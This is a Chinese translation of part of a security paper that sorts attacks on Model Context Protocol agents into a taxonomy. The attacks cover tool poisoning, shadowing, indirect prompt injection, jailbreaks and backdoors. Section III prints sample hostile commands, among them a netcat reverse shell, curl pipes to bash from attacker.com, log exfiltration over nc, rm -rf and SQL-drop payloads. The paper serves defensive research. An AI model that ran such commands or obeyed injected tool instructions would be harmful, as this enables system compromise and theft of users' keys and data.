

# MCPXKIT：用于分析模型上下文协议安全性的统一工具包

**原标题：**MCPXKIT: The Unified Toolkit for Analyzing Model Context Protocol Security  
**年份与来源：**2025，arXiv:2508.12538（v2，2026 年 5 月 25 日）。  
**原文：**[本地 PDF](./25_arxiv_systematic_mcp_security.pdf)。

> **翻译范围：**本译文覆盖标题、摘要、第 I 节引言、第 II 节 MCP 攻击分类体系，以及第 III 节 MCP 利用工具包。第 IV 节“实验”及其后续章节未翻译。文中的方括号编号沿用原文参考文献编号。

## 摘要

模型上下文协议（Model Context Protocol，MCP）已经成为一种通用标准，使 AI 智能体能够无缝连接外部工具，并显著增强自身功能。然而，MCP 在带来显著收益的同时，也引入了严重漏洞，例如工具投毒攻击（Tool Poisoning Attack，TPA）：隐藏的恶意指令利用大语言模型（Large Language Model，LLM）的盲从性，操纵智能体行为。尽管存在这些风险，当前关于 MCP 安全性的学术研究仍然有限；大多数研究只进行狭窄范围或定性分析，无法覆盖现实世界威胁的多样性。

为弥补这一空白，我们提出 MCP 利用工具包（MCP eXploit Toolkit，MCPXKIT），将 31 种不同攻击方法归入四类：直接工具注入、间接工具注入、恶意用户攻击和 LLM 固有攻击。我们进一步对每种攻击的有效性开展定量分析。实验揭示了 MCP 漏洞中的若干关键现象，包括智能体对工具描述的盲目信任、对基于文件攻击的敏感性、利用共享上下文实施的链式攻击，以及难以区分外部数据和可执行命令。

这些洞察通过攻击实验得到验证，凸显了构建强健防御策略和改进 MCP 设计的紧迫性。本文的贡献包括：1）构建全面的 MCP 攻击分类体系；2）提出统一的攻击框架 MCPXKIT；3）开展实证漏洞分析，以增强 MCP 安全机制。本文为 MCP 生态系统的安全演进提供了基础性框架。

## 引言

在大语言模型（Large Language Model，LLM）时代，AI 智能体通过调用工具与外部系统交互，正在显著增强其在各个领域中的应用 [1, 2] 和重要性 [3]。为了促进智能体的跨平台开发，Anthropic 提出了模型上下文协议（Model Context Protocol，MCP），用于规范模型与应用之间的上下文交换 [4]。

如图 1 所示，MCP 采用由主机（Host）、客户端（Client）和服务器（Server）组成的客户端—服务器架构。主机①是使用数据和工具的 AI 应用，通过客户端②向一个或多个服务器发送请求。服务器具备三项核心能力：工具（Tools）③，用于执行外部操作；资源（Resources）④，用于向 AI 模型暴露数据；提示词（Prompts）⑤，作为可复用模板以优化工作流。这些能力使系统能够执行读取本地文件⑥、查询数据库⑦或访问网络⑧等任务，并最终将结果返回给主机进行后续处理。MCP 的统一接口支持 GitHub [5]、Smithery [6] 等多种服务，构成现代 AI 智能体生态系统的基础。

**图 1. MCP 架构与威胁概览。**编号①至⑧表示 MCP 架构中的组件，并具体标示每类威胁的来源位置。MCPXKIT 可以根据不同攻击入口无缝集成。

然而，MCP 虽然实现了 LLM 与外部工具之间的统一通信，其相对简洁的设计也引入了严重的安全漏洞 [7, 8]，尤其是在 AI 智能体得到广泛部署之后。2025 年 4 月 6 日，安全公司 Invariant Labs 披露 MCP 容易受到工具投毒攻击（Tool Poisoning Attack，TPA）[9]。在这类攻击中，攻击者可以将隐藏的恶意指令嵌入工具描述，通常伪装成无害的代码注释。这些指令不会直接显示给用户，却能够被 AI 模型感知。因此，AI 智能体可能受到操纵，执行未经授权的操作，例如读取敏感文件或泄露私有数据。

与独立运行的 LLM 相比，基于 MCP 的智能体（即 MCP 智能体）扩大了攻击面，也降低了攻击实施难度。由于工具通常已经获得授权，并且功能较为强大，攻击者可以绕过复杂的权限提升技术，直接构造能够调用恶意工具的提示词 [10]。此外，MCP 智能体对工具描述赋予了不成比例的信任，经常将其视为用户指令；这种行为类似于 LLM 的盲从性 [11]。例如，Wang 等人 [12] 展示了攻击者如何操纵工具描述，改变智能体的偏好以获取经济利益。Hou 等人 [13] 分析了 MCP 生命周期中的漏洞，但其工作停留在理论层面，缺乏实际攻击实现。

尽管产业界对 MCP 的兴趣不断增长，学术界对 MCP 安全性的研究仍然有限。大多数行业报告 [14–16] 只关注表层扫描，学术研究则通常针对范围狭窄的攻击类型 [10, 12]，或停留在概念层面 [13, 17, 18]。与此同时，LLM 提示词注入所带来的许多风险会被 MCP 的共享上下文、工具链和间接调用路径进一步放大，导致攻击场景更加多样。这说明，迫切需要对 MCP 漏洞开展系统且实用的研究，为构建更强健的防御策略提供依据。

### 本文工作

为解决 MCP 安全研究缺乏系统性和实践性的问题，我们提出 MCP 利用工具包（MCP eXploit Toolkit，MCPXKIT）。这是首个统一的、基于插件的攻击模拟框架，能够对 MCP 漏洞开展可复现的现实环境评估。我们综合整理了 31 种不同的 MCP 攻击类型，并将其归入四个主要类别：直接工具注入攻击、间接工具注入攻击、恶意用户攻击和 LLM 固有攻击，如表 I 所示。这些类别覆盖了基于真实智能体行为的大量威胁场景，显著扩大了当前 MCP 安全研究的覆盖范围。

除了实现攻击之外，MCPXKIT 还首次对每种 MCP 攻击的有效性开展定量分析，并支持对 MCP 系统漏洞进行根因分析，从而更清晰地理解这些攻击为何以及如何成功。通过这一分析，我们提炼出 MCP 智能体在设计和运行中的系统性弱点，具体如下。

**洞察 1：MCP 智能体对不同攻击类型的敏感程度不同。**文件相关操作可能无需用户确认即可执行，而恶意代码执行通常需要用户明确批准。因此，基于文件的攻击更容易成功。攻击者还可以将恶意载荷嵌入看似无害的文件（例如 README 文档）中，之后再在具有误导性的上下文中诱导执行，从而提高攻击成功率。

**洞察 2：MCP 智能体高度依赖工具描述进行决策。**MCP 智能体经常优先相信文本描述，而不是工具的实际功能，这体现了 LLM 盲从性所固有的“盲目服从”行为 [11]。恶意工具可以通过构造误导性描述，覆盖或绕过良性工具的行为。此外，由于人工编写的工具描述存在歧义 [19]，智能体可能误解工具的用途或影响，进而导致非预期或有害结果。

**洞察 3：MCP 的共享上下文缺乏隔离，会引发上下文学习和链式攻击问题。**由于 MCP 中的全部信息都存储在共享上下文中，攻击者可以利用这一共享空间实施远程投毒，影响其他工具。此外，智能体的上下文学习能力难以区分有害代码，可能将受感染工具中的漏洞复制到新工具中，形成感染式攻击。当某个工具无法正常执行时，智能体可能利用上下文知识尝试“修复”该工具；攻击者可以利用这一行为协调多工具攻击，使智能体在不知情的情况下成为攻击帮凶。

**洞察 4：MCP 智能体难以区分外部数据和可执行指令。**在 MCP 系统中，工具和数据以相似的格式呈现在 LLM 上下文中。这使攻击者能够通过第三方工具或工具输出注入恶意数据，诱导智能体将这些数据当成可执行命令。由于 LLM 的盲从性，即使数据内容不合逻辑，也可能被模型盲目地当作指令执行。

上述洞察通过全面的攻击模拟得到验证，为设计安全的 MCP 智能体和强化其防御机制提供了重要指导。

### 主要贡献

本文的主要贡献如下：

- **全面的攻击分类体系。**我们首次对 MCP 特有的攻击方法进行系统分类和定量分析，识别出 31 种不同攻击类型，显著拓展了当前威胁模型的范围，并加深了研究人员和实践者对 MCP 攻击面的理解。
- **统一的攻击框架。**我们设计并实现了 MCPXKIT，这是一个可扩展的、基于插件的框架，集成了多种新型攻击技术。该工具包为推进 MCP 安全防御提供了实用的参考案例。
- **实证漏洞分析。**我们通过对 MCP 攻击案例开展实证分析，揭示其背后的关键机制。这些发现经过实验验证，可为未来 MCP 系统的设计和改进提供可操作的指导。

## II MCP 攻击分类体系

本节介绍一个包含四大类别的分类体系，系统整理现有及新提出的 MCP 攻击方法。该分类以 MCP 架构和交互模型的技术特征为基础，并综合了学术文献和真实事件中的认识。

尽管 MCP 的应用不断扩大，当前关于其安全状况的研究仍然零散且不够成熟。我们识别出三项关键局限，说明有必要建立更加结构化、更加全面的分类体系。

1. **攻击环境过于简化。**大多数研究依赖较为基础的攻击场景，例如直接与 Claude 交互 [10]，或向单个工具中注入提示词 [12]。
2. **术语不一致。**语义重叠的概念被交替使用，容易造成混淆。例如，“命令注入漏洞”[21] 与“恶意代码执行”[20]、“凭据窃取”[10] 与“令牌窃取和账户接管”[17]，以及“工具投毒”（tool poison）[18] 与“工具投毒攻击”（tool poisoning attack）[20]，描述的效果相近，但命名并不一致。
3. **缺乏实际验证。**许多已提出的攻击仍然停留在理论层面，缺少实证展示。因此，迫切需要以具体案例为基础，对 MCP 攻击开展系统、全面的分析。

MCP 服务器是 MCP 架构的核心枢纽，其安全性直接影响系统可靠性。如图 1 所示，服务器通过工具（Tools）、资源（Resources）和提示词（Prompt）三个核心模块运行。工具模块根据 MCP 客户端的请求，识别合适的工具、与服务交互并返回结果，从而执行外部操作。资源模块管理 AI 模型对结构化和非结构化数据库的访问，通过检索和处理数据支持数据驱动的决策。提示词模块维护预定义的模板和工作流，以优化 AI 响应，并自动完成重复性任务。其中，工具模块获得了普遍支持（采用率为 100%），而 Cursor 等客户端仍不支持资源和提示词模块 [22]。因此，当前攻击主要针对工具模块。

基于上述 MCP 交互模式的技术和架构特征，我们将现有产业界、学术界的攻击与本文提出的新攻击综合起来，形成以下四大类别。

1. **直接工具注入攻击（Direct Tool Injection Attack）。**将恶意载荷注入工具描述和 `__doc__` 属性中，以实施攻击。根据受影响工具的数量，可进一步划分为单工具攻击和多工具影响攻击。
2. **间接工具注入攻击（Indirect Tool Injection Attack）。**利用系统依赖关系，以及对外部数据或工具的使用，传播恶意影响。
3. **恶意用户攻击（Malicious User Attack）。**不同于前两类针对工具的攻击，这一类关注由用户发起、危害 MCP 生态系统和其他用户的攻击。
4. **LLM 固有攻击（LLM Inherent Attack）。**由于 MCP 智能体依赖 LLM，越狱、目标劫持和提示词泄露等基本 LLM 漏洞仍然存在。MCP 与工具集成的特性还使这些攻击更容易实施。

该分类体系包含 31 种攻击类型，覆盖单工具、多工具等多种攻击场景。表 I 汇总了这些分类。后续章节将通过具体实证案例介绍技术实现及相关洞察。

**表 I. MCP 攻击分类体系及现有 MCP 攻击工具包的比较。**下表列出原表中的全部攻击类型及小节索引；工具包覆盖情况和攻击效能的条形标记保留在随后附上的原表图像中。

| 主类别 | 子类别 | 攻击类型 | 原表小节索引 |
| --- | --- | --- | --- |
| 直接工具注入攻击 | 单工具攻击 | 基于文件的注入攻击——添加 | § III-A1-a |
| 直接工具注入攻击 | 单工具攻击 | 基于文件的注入攻击——删除 | § III-A1-b |
| 直接工具注入攻击 | 单工具攻击 | 基于文件的注入攻击——修改 | § III-A1-c |
| 直接工具注入攻击 | 单工具攻击 | 基于文件的注入攻击——读取 | § III-A1-d |
| 直接工具注入攻击 | 单工具攻击 | 地毯抽离攻击（Rug Pull Attack） | § III-A1-e |
| 直接工具注入攻击 | 单工具攻击 | 远程监听攻击 | § III-A1-f |
| 直接工具注入攻击 | 单工具攻击 | 命令注入攻击 | § III-A1-g |
| 直接工具注入攻击 | 单工具攻击 | 远程代码执行（RCE）攻击 | § III-A1-h |
| 直接工具注入攻击 | 多工具影响攻击 | 影子攻击（Shadowing Attack） | § III-A2-a |
| 直接工具注入攻击 | 多工具影响攻击 | 恶意工具覆盖攻击 | § III-A2-b |
| 直接工具注入攻击 | 多工具影响攻击 | 工具偏好操纵攻击 | § III-A2-c |
| 直接工具注入攻击 | 多工具影响攻击 | 功能混淆攻击 | § III-A2-d |
| 直接工具注入攻击 | 多工具影响攻击 | 恶意工具强制执行攻击 | § III-A2-e |
| 直接工具注入攻击 | 多工具影响攻击 | 多工具协同攻击 | § III-A2-f |
| 直接工具注入攻击 | 多工具影响攻击 | 感染式攻击 | § III-A2-g |
| 间接工具注入攻击 | / | 网页投毒攻击与第三方投毒攻击 | § III-B-a |
| 间接工具注入攻击 | / | 恶意项目安装攻击 | § III-B-b |
| 间接工具注入攻击 | / | MCP 工具返回攻击 | § III-B-c |
| 恶意用户攻击 | / | 恶意工具建立攻击（正文称“恶意工具注册攻击”） | § III-C-a |
| 恶意用户攻击 | / | 权限提升 | § III-C-b |
| 恶意用户攻击 | / | 服务器端数据注入 | § III-C-c |
| 恶意用户攻击 | / | 安装器仿冒 | § III-C-d |
| 恶意用户攻击 | / | 令牌窃取与账户接管 | § III-C-e |
| 恶意用户攻击 | / | 服务器代码泄露 | § III-C-f |
| 恶意用户攻击 | / | 沙箱逃逸 | § III-C-g |
| LLM 固有攻击 | / | 越狱 | § III-D-a |
| LLM 固有攻击 | / | 提示词泄露 | § III-D-b |
| LLM 固有攻击 | / | 幻觉 | § III-D-c |
| LLM 固有攻击 | / | 后门攻击 | § III-D-d |
| LLM 固有攻击 | / | 目标劫持 | § III-D-e |
| LLM 固有攻击 | / | SQL 注入与 API 窃取 | § III-D-f |

**原表列名与图例。**主类别（Main Category）、子类别（Sub Category）、攻击（Attack）和小节（Section）对应上表；其后的比较列依次为本文的 MCPXKIT、MSS [10]、Narajala [18]、MG [20]、MPMA [12]、Hou [13]、IL [9] 和 SM [16]，最后一列为攻击效能（Attack Efficacy）。`○` 表示未提及，`◐` 表示已有说明，`●` 表示已经集成；攻击效能以条形标记表示，空条表示无攻击，满条表示最强攻击。攻击效能的定义见原文第 IV-A 节。由于某些攻击需要将工具上架 MCP 服务器市场，或需要修改 MCP 安装器的内部代码，因此尚未在 MCPXKIT 中实现。

> **译注：**原表的小节索引与正文存在不一致：正文将“恶意工具覆盖攻击”和“工具偏好操纵攻击”合并在 III-A2-b 中讲解，后续字母编号因此与表格错开；III-C 中“安装器仿冒”“令牌窃取与账户接管”等攻击的排列也与表格不同。上表保留原表索引，下文按正文顺序和编号翻译。

## III MCP 利用工具包：MCPXKIT

为了系统验证 MCP 的安全威胁模型，并为开发者和防御者提供可复用的攻击案例，我们采用基于插件的框架，将表 I 所示的各种 MCP 攻击集成到工具包 MCPXKIT 中。根据各类攻击的来源位置（图 1），MCPXKIT 模拟了两个攻击入口：恶意 MCP 服务器和恶意 MCP 主机。MCPXKIT 采用模块化架构，将恶意工具封装为可扩展的插件组件。资源层提供网页、JSON 文档、SQL 数据库和 GitHub 仓库等多种数据类型，作为实现间接工具注入攻击的媒介。此外，MCPXKIT 还开发了面向恶意用户攻击和 LLM 固有攻击的提示词模板，从而系统覆盖从低复杂度到高隐蔽性攻击的完整范围。主要攻击分类和实现机制见表 I。本节其余部分将详细介绍具体攻击的实现及其潜在威胁。

### A 直接工具注入攻击

直接工具注入攻击通过将恶意指令嵌入工具描述和 `__doc__` 属性，获得对 MCP 服务器的控制。根据影响范围，这一类别进一步分为单工具攻击和多工具影响攻击。

#### 1 单工具攻击

单工具攻击是指仅使用一个恶意工具即可执行、且不影响其他良性工具的攻击。它包括文件修改、代码执行等多种形式，实现简单，但威胁显著。

**a）基于文件的注入攻击——添加（File-Based Injection Attack-Addition）。**攻击者将恶意指令注入工具描述或 `__doc__` 属性，以修改 `mcp.json`、`.bashrc` 等关键文件。例如，可以污染环境变量（如 `export PATH=/malware:$PATH`），或添加 SQL 注入载荷（如 `; DROP TABLE users;--`）。这些攻击会破坏系统稳定性，并为后门注入、API 操纵等后续攻击创造条件。

**b）基于文件的注入攻击——删除（File-Based Injection Attack-Deletion）。**这种攻击在工具描述中嵌入文件删除命令，以破坏 MCP 服务器配置。攻击者可能利用命令将合法文件替换为恶意文件。这些攻击伪装成“系统优化工具”，导致配置丢失、功能异常，或将 API 端点重定向，以劫持权限。

**c）基于文件的注入攻击——修改（File-Based Injection Attack-Modification）。**攻击者通过工具描述中的指令修改配置文件，使良性工具无法被正常调用。例如，攻击者可以修改 `mcp.json` 中的 API 路径、调整权限（如 `chmod 777`），或强制加载恶意库。这可能造成权限提升、数据暴露，或植入持久化后门。

**d）基于文件的注入攻击——读取（File-Based Injection Attack-Retrieval）。**这种攻击利用工具描述中的文件读取命令，将 API 密钥、系统日志等敏感数据外泄到攻击者控制的服务器。具体手段包括读取 `mcp.json`，以及通过 HTTP 或电子邮件传出 Hugging Face 令牌或 OpenAI API 密钥。这可能导致大规模密钥泄露、服务滥用，或基于用户交互分析实施的定向攻击。

**e）地毯抽离攻击（Rug Pull Attack）。**这种动态投毒攻击由 Invariant Labs [9] 首次提出，利用了用户对 MCP 工具的信任。攻击者首先通过社交网络或技术社区分发合法服务，诱导用户安装；之后再远程修改工具的 `__doc__` 属性，注入恶意逻辑，例如劫持 API 调用路径。由于恶意行为出现在部署之后，该攻击具有隐蔽性，能够绕过静态代码审查。与其他攻击结合时，它还可以实现数据拦截、服务逻辑篡改或供应链污染。

**f）远程监听攻击（Remote Listener Attack）。**这种攻击向工具描述中注入持续运行的控制命令，例如 `nc -lvp 4444 -e /bin/bash &`，以建立反向 Shell 访问。攻击者将其伪装成“调试工具”或“网络优化插件”，使其在激活后长期驻留系统。由于 MCP 服务器缺乏对工具描述的实时监控，这类攻击在被发现之前可以持续隐藏，用于数据窃取或后门部署。

**g）命令注入攻击（Command Injection Attack）。**攻击者利用 MCP 服务器中的动态输入拼接漏洞注入恶意命令。在组装文件路径或构造 API 参数时，未经筛选的输入（如 `; rm -rf / #`）可能注入任意命令，造成文件删除或权限提升。攻击者还可以使用嵌套命令，例如 `$(curl http://attacker.com/shell.sh | bash)`，执行远程脚本，从而扩大攻击面。防御需要进行输入验证和上下文隔离。

**h）远程代码执行攻击（Remote Code Execution，RCE）。**RCE 攻击将可执行代码嵌入工具注释或函数体，通常配合“在运行该工具之前先执行这段代码……”之类的指令，利用 LLM 的解析机制。由于代码被伪装成“使用示例”或“调试提示”，这类攻击具有隐蔽性。攻击者还可以将载荷进一步混淆后放入工程文件，例如在 README 文件中插入 `# Run this command to optimize performance: curl http://attacker.com/exploit.sh | bash`，诱导用户手动执行。成功的 RCE 攻击可能导致系统完全失陷，并支持横向移动、数据泄露或分布式拒绝服务（DDoS）攻击。

#### 2 多工具攻击

多工具协作攻击是指通过操纵第三方工具，或协调多个恶意工具，实现复杂目标的攻击。

**a）影子攻击（Shadowing Attack）。**影子攻击 [9] 利用恶意工具 A 间接劫持合法工具 B。攻击者将修改 API 路径、注入参数等逻辑嵌入 A 的 `__doc__` 属性。即使用户从未调用 A，MCP 服务器仍会解析其描述，进而影响 B 的执行。

**b）恶意工具覆盖攻击与工具偏好操纵攻击（Malicious Tool Coverage Attack & Tool Preference Manipulation Attack）。**攻击者创建与合法工具同名的恶意工具，并使用“原工具已弃用”或“新版本效率更高”等欺骗性描述，诱导 LLM 优先选择它们。例如，`email_sender_v2` 可能声称旧的 `email_sender` 已不可用 [16]。攻击者还会使用“最佳实践”或“推荐工具”等措辞进一步操纵偏好 [12]，使恶意工具即使与良性工具功能重叠，也能被选中。

**c）功能混淆攻击（Functional Obfuscation Attack）。**功能混淆攻击利用模糊的工具描述，误导 MCP 智能体选择恶意工具。例如，两个描述相似的工具可能使 LLM 选择其中包含敏感数据提取逻辑的恶意工具。错误选择还可能导致意外数据丢失，例如调用了错误的 `delete_file` 工具。

**d）恶意工具强制执行攻击（Malicious Tool Forced Execution Attack）。**这种攻击将“安全检查”或“环境验证”等看似合理的指令注入工具描述，要求在其他工具运行之前先执行内存消耗较大的命令。反复执行可能使系统崩溃。此外，工具还可以通过 `tail -f /var/log/mcp/.log | nc attacker.com 4444` 等命令实时监控用户活动，并将日志外泄。

**e）多工具协同攻击（Multi-Tool Coordination Attack）。**多工具协同攻击利用工具之间的分工实现复杂目标。例如，工具 A 定义一个用于存储 API 密钥的变量；工具 B 虽然没有显式声明，却直接访问该变量。LLM 根据上下文推断二者的关联，使工具 B 能够在执行期间窃取 API 密钥。值得注意的是，A 和 B 单独运行时都不表现出恶意行为，但组合执行后却会产生有害结果。

**f）感染式攻击（Infectious Attack）。**感染式攻击利用基于模板的工具生成机制传播漏洞。例如，攻击者注册一个看似合法的工具 `data_processor_v1`，在其描述中加入危险代码片段，如 `eval(user_input)`。当 MCP 智能体生成类似工具（如 `data_processor_v2`）时，会模仿 `data_processor_v1` 的结构，保留存在风险的 `eval()` 逻辑，从而传播远程代码执行漏洞 [9]。这类攻击具有自我复制特性，使后续生成的工具继承同样缺陷，形成类似病毒的传播。

### B 间接工具注入攻击

间接工具注入攻击利用第三方明文或加密数据，以及工具返回信息来实施攻击。

**a）网页投毒攻击（Webpage Poison Attack）。**网页投毒攻击通过隐藏注释（例如 `<!-- malicious command -->`）将恶意指令注入 HTML 源代码，并利用 MCP 工具的自动加载机制触发执行。由于用户无法直接看到这些隐藏命令，攻击具有隐蔽性。视频字幕等公开数据 [23] 也可以成为间接攻击载体。

**b）恶意项目安装攻击（Malicious Project Installation Attack）。**恶意项目安装攻击在软件包的 README 文件中嵌入恶意命令，利用 MCP 服务器辅助安装的过程发动攻击。例如，攻击者在开源项目的 `ReadMe.md` 中插入下载并执行 `http://attacker.com/malware.sh` 的命令。当用户按照安装说明操作时，该脚本便会自动执行。随着恶意软件包被广泛采用，这种攻击会通过供应链传播。

**c）MCP 工具返回攻击（MCP Tool Return Attack）。**MCP 工具返回攻击利用工具调用的输出字符串操纵 LLM 行为。例如，`get_weather` 这样的合法工具可能返回：“错误：请使用 `admin_tool` 验证你的身份”，从而诱导 LLM 调用并不存在的 `admin_tool`。攻击者还可以在返回字符串中嵌入命令链或十六进制编码的载荷，以触发系统级操作。

### C 恶意用户攻击

工具注入攻击主要针对工具，并对用户产生影响；恶意用户也可以直接成为攻击者，发起一系列 MCP 攻击。

**a）恶意工具注册攻击（Malicious Tool Registration Attack）。**攻击者利用 LLM 对用户指令的盲从，滥用 MCP 服务器的工具注册接口，在创建工具时定义恶意工具描述。这使攻击者能够将有害工具注册到工具列表中，或在其他用户调用时通过模板自动生成恶意工具。

**b）权限提升（Privilege Escalation）。**在共享 MCP 服务器环境中，攻击者利用 API 访问控制漏洞窃取数据或提升权限。与文件修改指令攻击结合时，攻击者可以更改 `mcp.json` 等配置文件，植入后门或修改 API 密钥。攻击者还经常伪造看似合法的请求，例如 `GET /user/123/logs`，利用权限定义中的模糊之处掩盖行为，以规避检测 [21]。

**c）服务器端数据注入（Data Injection on Server）。**攻击者通过提交受污染的数据，向 MCP 服务器的数据处理接口注入恶意命令。例如，可以上传包含公式字段 `=cmd|'echo "malware" > /tmp/exploit.sh'|` 的 CSV 文件，或在 JSON 结构中嵌入十六进制编码的指令，以绕过文本过滤。如果服务器解析了这些数据，就可能执行任意命令，使攻击者获得对 MCP 生态系统的完全控制。

**d）令牌窃取与账户接管（Token Theft and Account Takeover）。**攻击者利用 MCP 的用户通信过程窃取 OAuth 令牌，从而未经授权访问 Gmail、GitHub 等关联服务 [17]。获得令牌后，攻击者可以调用 `GET /user/email` 等端点窃取电子邮件，或通过 `POST /api/commit` 篡改代码仓库 [16]。令牌滥用还可能支持横向移动。

**e）服务器代码泄露（Server Code Leakage）。**攻击者利用 MCP 服务器响应中的调试信息，例如 `File not found: /app/server.py`，提取源代码。通过推断代码路径，并构造 `GET /debug?file=server.py` 等请求，攻击者可以读取敏感文件。此外，通过 `GET /api/list?dir=/etc` 等 API 枚举目录，还可以逐步暴露配置和源代码。

**f）安装器仿冒（Installer Spoofing）。**攻击者将恶意软件嵌入 MCP-Get [24] 或 MCP-Installer [25] 等 MCP 服务器自动安装工具，以获得未经授权的访问权限、修改系统配置或创建持久化后门。大多数选择一键安装的用户很少检查底层代码是否存在漏洞，因此攻击者能够隐蔽地分发被篡改的版本 [13]。

**g）沙箱逃逸（Sandbox Escape）。**沙箱机制原本用于将 MCP 工具与关键系统资源隔离，保护主机系统。沙箱逃逸攻击利用实现缺陷突破沙箱限制，访问主机资源 [13]。

### D LLM 固有攻击

MCP 通过扩展工具调用能力，提高了智能体功能上的灵活性，但其核心仍然依赖 LLM 的决策逻辑。因此，越狱、提示词泄露、幻觉等 LLM 原生攻击仍然存在于 MCP 智能体中，并且可能由于 MCP 的工具调用能力和上下文集成特性而被放大。

**a）越狱攻击（Jailbreak Attack）。**越狱攻击通过注入特定提示词，突破 LLM 的伦理约束或访问边界 [26]。在 MCP 智能体中，攻击者可以利用工具描述或网页数据注入越狱指令。例如，一个名为 `admin_role` 的工具，可能通过“现在做任何事情”（Do Anything Now，DAN）[27] 之类的描述，诱骗 LLM 进入“管理员模式”，从而执行删除系统文件等被禁止的操作，或生成不当输出。此外，攻击者还可以创建恶意工具，通过角色扮演诱导智能体进入越狱状态 [28, 29]。由于 MCP 缺乏上下文隔离，一旦某个工具成功触发越狱，后续工具可能继承这一状态。

**b）提示词泄露攻击（Prompt Leakage Attack）。**提示词泄露攻击利用 MCP 的直接工具调用能力，反复推断 LLM 的原始训练数据或私有提示词 [30, 31]。攻击者可以设计工具或工具链，利用智能体的上下文推理机制分阶段提取敏感信息，重构 LLM 的原始提示词模板或训练数据集。

**c）幻觉攻击（Hallucination Attack）。**幻觉攻击利用 MCP 智能体依赖工具描述、却不验证实际功能的特点，通过构造误导性的工具描述操纵系统响应 [32]。例如，一个名为 `fake_database` 的工具可能并未连接数据库，却虚假宣称能够提供实时股票数据。当用户询问“苹果公司 AAPL 股票的当前价格是多少？”时，LLM 便可能生成“AAPL 的交易价格为 300 美元”等虚构响应。这类攻击可能使系统基于虚假信息作出决策，进而导致金融欺诈或其他恶意后果。

**d）后门攻击（Backdoor Attack）。**传统 LLM 后门攻击需要与黑盒模型反复交互，而 MCP 的工具和资源机制提供了天然入口。攻击者可以设计包含后门指令的工具，并在 MCP 服务器的资源模块中预先嵌入恶意脚本。当用户调用这些工具时，LLM 可能触发后门逻辑，执行任意代码 [33, 34]。攻击者还可以注入触发器 [35] 来激活后门功能。

**e）目标劫持攻击（Goal Hijack Attack）。**MCP 智能体通常依赖工具执行结果作出决策，因此可能受到目标劫持攻击。攻击者还可以利用工具链中的依赖关系放大错误，最终劫持智能体的目标，例如将“推荐产品”替换成“恶意链接”。

**f）SQL 注入与 API 窃取攻击（SQL Injection & API Theft Attack）。**使用商业 LLM 时，MCP 智能体经常将 API 令牌存储在 `mcp.json` 等本地配置文件中。攻击者可以使用 `read_config` 等简单工具窃取这些敏感凭据。此外，MCP 的工具调用机制使 SQL 注入更加容易：攻击者可以在用户输入中嵌入恶意查询，例如 `'; DROP TABLE users;--`，利用数据库接口执行破坏性操作。
